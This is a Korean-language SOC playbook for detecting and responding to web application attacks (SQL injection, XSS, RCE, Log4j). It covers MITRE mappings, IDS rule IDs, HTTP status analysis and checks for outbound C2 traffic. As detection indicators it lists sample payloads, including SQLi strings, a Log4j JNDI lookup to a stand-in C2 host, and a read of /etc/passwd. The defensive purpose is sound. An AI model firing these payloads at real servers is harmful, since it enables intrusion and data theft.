

# 🛡️ SOC Playbook 03: 웹 애플리케이션 침해 공격 (SQLi, XSS, RCE, Log4j) 대응 가이드

---

## 1. 개요 (Overview)
- **위협 정의**: 외부 노출된 웹 서버의 취약점(OWASP Top 10)을 악용하여 데이터 탈취, 악성 스크립트 삽입, 또는 원격 임의 명령(RCE)을 실행하는 공격.
- **MITRE ATT&CK**: `T1190` (Exploit Public-Facing Application), `T1059` (Command and Scripting Interpreter)
- **탐지 룰 ID**: Suricata `sid:1000001` ~ `1000040`, Snort `sid:2000010` ~ `2000013`

---

## 2. 세부 공격 유형별 분석 포인트

### 2.1 SQL Injection (SQLi)
- **페이로드 검증**: `UNION SELECT`, `' OR 1=1`, `SLEEP(5)` 등 데이터베이스 쿼리 조작 패턴.
- **웹 서버 응답 코드(HTTP Status) 분석**:
  - `400 / 403 / 404`: 웹 서버/WAF 단계에서 차단됨 (공격 시도로 판정).
  - `500 Internal Server Error`: SQL 문법 에러 유발 (취약점 존재 가능성 높음).
  - `200 OK`: 쿼리가 실제로 실행되어 데이터가 반환되었는지 EVE JSON `http.response_body` 확인 필요!

### 2.2 Remote Code Execution (RCE) / Log4j JNDI Exploit
- **페이로드**: `${jndi:ldap://evil-c2.lab/Exploit}` 또는 `cat /etc/passwd`, `whoami`.
- **조치 긴급도**: **`CRITICAL` (즉시 10분 이내 에스컬레이션)**.
- **후속 트래픽 검증**: 타깃 서버에서 외부 공격자 C2 IP로의 아웃바운드 LDAP(389), RMI(1099), DNS(53), 또는 Reverse Shell(4444) 연결이 발생했는지 방화벽/Flow 로그 확인.

---

## 3. 침해사고 대응 절차 (Incident Response Workflow)

---

## 4. 침해 지표 (IOCs) 및 룰 최적화
- **정탐률 향상 팁**:
  - 단순 공격 문자열 포함 여부뿐만 아니라 `flow:established,to_server` 및 `http.response_body` 매칭을 병행하여 실제 취약점 성공 여부 파악.
